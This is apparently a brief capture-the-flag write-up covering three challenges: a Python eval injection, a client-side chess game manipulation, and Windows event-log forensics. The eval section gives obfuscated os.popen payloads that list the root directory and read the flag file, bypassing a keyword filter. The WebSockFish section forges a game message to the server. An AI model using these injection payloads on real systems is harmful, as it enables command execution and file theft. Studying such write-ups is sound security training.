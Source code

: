 

## 3v@l

Its a python code running eval inside it. The flag is located in `/`

```
__import__('o'+'s').popen('ca'+'t * ').read()
__import__('o'+'s').popen('l'+'s '+chr(47)).read()
__import__('o'+'s').popen('ca'+'t'+chr(32)+chr(47)+'f'+'l'+'a'+'g'+'.'+'t'+'x'+'t').read()
```

## WebSockFish

You can do this but
```
game.clear();
game.put({ type: 'k', color: 'b' }, 'e8');   // black king
game.put({ type: 'r', color: 'w' }, 'a8');   // white rook
game.put({ type: 'q', color: 'w' }, 'h7');   // white queen

stockfish.postMessage("position fen " + game.fen());
stockfish.postMessage("go depth 15");
```

But it doesn't run the sendMessage

So we manually send the eval

```
sendMessage("eval -100000");
```


## Event-Viewing

First using Windows Event viewer we get and sorting by event id:

There are couple of warnings and below that is what has got installed.

On seeing there is one installer which says `Totally_Legit_Software` which is suscipious


![alt text](/Pictures/EventViewing1.png)

Now using python
```
from Evtx.Evtx import Evtx

def evtx_file(file_path):
    xml_records = []
    try:
        with Evtx(file_path) as log:
            for record in log.records():
                xml_records.append(record.xml())
    except FileNotFoundError:
        print("Error: File not found. Please check the file path and try again.")
    except Exception as e:
        print(f"An error occurred: {e}")
    return xml_records

if __name__ == "__main__":
    file_path = input("EVTX file: ").strip()
    records = evtx_file(file_path)
    for rec in records:
        print(rec)
```
